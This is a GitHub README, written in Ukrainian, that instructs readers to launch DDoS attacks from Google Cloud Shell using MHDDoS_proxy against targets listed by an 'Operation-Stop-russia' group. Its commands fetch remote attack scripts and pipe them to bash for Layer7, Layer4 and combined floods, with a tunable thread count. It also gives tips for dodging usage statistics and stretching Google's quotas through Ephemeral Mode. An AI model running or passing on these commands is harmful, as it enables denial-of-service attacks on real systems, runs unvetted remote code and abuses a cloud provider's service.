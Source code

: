 ## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Making script for durable cloudshell session
#
# ТЕСТ
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

### Команди для запуску атаки
**по Layer7:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
**по Layer4:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
**Подвійна атака (Layer7+Layer4) розділений термінал (tmux):**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути** статистику використання.    
Дозволяється запускати до 4 терміналів на 1 акаунт але доцільніше використовувати 1-2 термінали на акаунт.    
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень*)    
#
:white_check_mark: **Автоперезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000.    
За потреби параметр -t можна змінити додавши до команди** ` -s -- "кількість"`, **наприклад:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash -s -- 2000
```
#
#### Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst

#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
